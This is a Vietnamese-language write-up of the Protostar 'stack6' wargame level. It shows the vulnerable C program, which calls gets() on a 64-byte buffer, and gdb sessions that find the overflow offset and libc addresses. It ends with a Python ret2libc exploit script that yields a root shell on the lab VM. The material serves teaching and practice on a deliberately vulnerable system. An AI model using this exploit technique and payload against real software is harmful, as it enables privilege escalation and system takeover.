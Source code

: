 # STACK SIX

## About

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SIX` muốn chúng ta xem xét về cách vượt qua các kiểm tra của chương trình khi mà địa chỉ trả về bị giới hạn. Cụ thể hơn là cách khai thác ret2libc.

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }
```

if((ret & 0xbf000000) == 0xbf000000)

```
Giả sử ret = 0xbf777777
	     ret & 0xbf000000

	     0xbf777777 
           & 0xbf000000
	     __________
             0xbf000000 <-- luôn bằng 0xbf000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP (tất cả bị đưa về `0xbf000000`) nếu như địa chỉ đó nằm trong khoảng từ `0xbf000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) start
Temporary breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
Starting program: /opt/protostar/bin/stack6

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 1984
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoạn địa chỉ từ `0xbf000000` đến `0xbfffffff` là stack -> không thể ghi đè shellcode lên stack rồi return lại để thực thi shellcode như `STACK FIVE`.

Thử thách này để có thể thực thi được shell ta sẽ sử dụng phương pháp ret2libc.
Đầu tiên là tìm lượng padding cần thiết để flow được vào EIP.

```
(gdb) c
Continuing.
input path please: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()       <-- 'UUUU'    [80 ký tự][EIP]
(gdb)
```

Sau đó là tìm địa chỉ của system() và exit() và địa chỉ của chuỗi `/bin/sh`:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Địa chỉ của chuỗi `/bin/sh` ta tìm được khi kiểm tra lại không chứa chuỗi ta cần tìm.

Vì vậy ta sẽ dùng cách khác để tìm `/bin/sh`:

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Payload của chúng ta bây giờ là:

`payload = "A" * 80 + addr_system + addr_exit + addr_shellcode`

File exp.py

```
import struct
pd = "A" * 80
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin$ (python exp.py; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`췿c
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	format0  format3  heap1  net0  net3    stack1  stack4  stack7
final1	format1  format4  heap2  net1  net4    stack2  stack5
final2	format2  heap0	  heap3  net2  stack0  stack3  stack6
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://bufferoverflows.net/ret2libc-exploitation-example/>
